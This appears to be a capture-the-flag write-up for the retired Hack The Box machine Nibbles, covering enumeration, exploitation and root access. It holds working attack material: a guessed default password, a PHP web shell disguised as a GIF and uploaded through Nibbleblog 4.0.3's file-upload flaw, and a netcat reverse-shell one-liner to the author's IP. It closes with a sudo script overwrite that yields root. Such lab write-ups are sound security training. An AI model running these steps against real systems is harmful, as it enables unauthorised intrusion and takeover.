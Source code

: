 # Nibbles

This is the write-up for the box Nibbles that got retired at the 30th June 2018.
My IP address was 10.10.14.34 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.75    nibbles.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/nibbles.nmap 10.10.10.75
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is a text that says **"Hello World"** and a comment in the source code:
```markdown
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

When browsing to _/nibbleblog_ it displays a blog page that is **"Powered by Nibbleblog"**.
[Nibbleblog](https://github.com/dignajar/nibbleblog) is an open-source CMS that works with PHP.

Looking through the GitHub repository, we can browse to the files and directories on the web page and can find out the version by going to the _/nibbleblog/admin/boot/rules/98-constants.bit_ file and looking at source code. As this is a _bit file_ if shows the source code of the PHP code.
It discloses some information about the software:
```markdown
// =====================================================================
//	SYSTEM INFORMATION
// =====================================================================
define('NIBBLEBLOG_VERSION',		'4.0.3');
define('NIBBLEBLOG_NAME',			'Coffee');
define('NIBBLEBLOG_RELEASE_DATE',	'01/04/2014');
define('NIBBLEBLOG_BUILD',			1396309604);
```

So lets search for vulnerabilities for **Nibbleblog 4.0.3**:
```markdown
searchsploit nibbleblog
```

There is an exploit called **Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)** which we take a look at.
It references a [Blog post from Curesec](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) where it says:
> When uploading image files via the "My image" plugin - which is delivered with NibbleBlog by default - , NibbleBlog 4.0.3 keeps the original extension of uploaded files. This extension or the actual file type are not checked, thus it is possible to upload PHP files and gain code execution.

To exploit this vulnerability, it is required to obtain login credentials first.
After trying out some easy-to-guess and default passwords, the following credentials work:
```markdown
Username: admin
Password: nibbles
```

On the admin panel we need to activate the _My Image plugin_ and then we can upload an image on the box:

![Uploading file](https://kyuu-ji.github.io/htb-write-up/nibbles/nibbles_web-1.png)

The file _cmd.php_ has the magic byte for a GIF at the beginning and code for command execution with PHP:
```markdown
GIF8;
<?php echo system($\_REQUEST['cmd']); ?>
```

The warnings can be ignored and the uploaded file can be found in the directory _/nibbleblog/content/private/plugins/my_image/image.php_.
Lets try to execute commands:
```markdown
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
```

This outputs the username _nibbler_ and confirms that code execution works. The next step is to start a reverse shell:
```markdown
GET /nibbleblog/content/private/plugins/my_image/image.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 9001 >/tmp/f

# URL-encoded
GET /nibbleblog/content/private/plugins/my_image/image.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.34+9001+>/tmp/f
```

After sending this request, the listener on my IP and port 9001 starts a session as _nibbler_.

## Privilege Escalation

Checking the root privileges with `sudo -l` displays that the user can run a shell script in the home directory without a password:
```markdown
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

So lets create the file _monitor.sh_ in the directory _/home/nibbler/personal/stuff/_, make it executable and start a shell with it:
```bash
# Title: monitor.sh

#!/bin/bash
bash
```

Execute the script:
```markdown
sudo ./monitor.sh
```

After executing it, a shell as root starts!
